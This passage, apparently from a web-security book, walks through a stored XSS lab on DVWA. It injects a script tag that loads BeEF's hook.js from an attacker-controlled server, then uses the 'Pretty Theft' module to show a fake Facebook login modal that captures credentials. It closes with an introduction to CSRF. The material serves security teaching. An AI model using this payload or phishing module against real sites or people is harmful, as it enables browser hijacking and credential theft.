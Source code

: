 G> Enable Foxy Proxy so that your request goes to the same port that Burp Suite is going to be listening on.
G>
G> Initialise Burp.
G>
G> Back in DVWA, send your request by clicking on the Sign Guest-book button.
G>
G> Switch back to the Burp -> Proxy tab and the request should be waiting for you. You now need to replace the text you used in the Message field `mtxMessage` with `<script src="http://<BeEF comms server IP address>:3000/hook.js"></script>` and forward the request.
G>
G> You can now disable FoxyProxy too.
G>
G> Now on your victim's system, the victim can log into DVWA and browse to the same "XSS stored" page. Now as the attacker, you will notice that the BeEF Web UI shows a node with the victims IP address. This means BeEF has the victims browser hooked. The victim's browser is now a zombie, continuously polling the BeEF communications server for commands to execute on its behalf.
G>
G> If you open the victim's browser developer tools, you will be able to inspect the communications and the JavaScript within the hook.js file.
G>
G> In the BeEF web UI you can explore the modules that you can launch against the victim's browser. You can review the types of attacks you can carry out on the [BeEF projects wiki](https://github.com/beefproject/beef/wiki/BeEF-modules).
G>
G> Select the victim's node and click on the Commands tab in the BeEF web UI, then in the Module Tree under Social Engineering select the "Pretty Theft" node. There are some options to configure, but even just selecting the Facebook default, if you know your target is already an avid FB user, should work fine. You would, of course, know this if you have done due diligence in the reconnaissance stage.

{icon=bomb}
G> Click on the Execute button and on the next Request -> Response from the hook.js, the victim's browser should pop a "Facebook Session Timed Out" modal. To get rid of this modal, the victim must enter their credentials and log in. There is no cancel or 'x' button. Once the victim has sent their credentials, they will be visible in the Command results of the BeEF web UI.  

### [Cross-Site Request Forgery (CSRF)](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet#General_Recommendation:_Synchronizer_Token_Pattern) {#web-applications-countermeasures-lack-of-input-validation-filtering-and-sanitisation-csrf}
![](images/ThreatTags/average-uncommon-easy-moderate.png)

This type of attack depends on a fraudulent web resource; it could be a website, email, instant message, or program that causes the target's web browser to perform an unintentional action on a website that the target is currently authenticated with.

CSRF attacks target functionality that change state on the server (`POST`, `PUT`, `DELETE`) that the target is currently authenticated to. This includes requests such as changing the target's credentials, making a purchase, moving money at their bank, etc. Forcing the target to retrieve data does not typically help the attacker in this scenario.
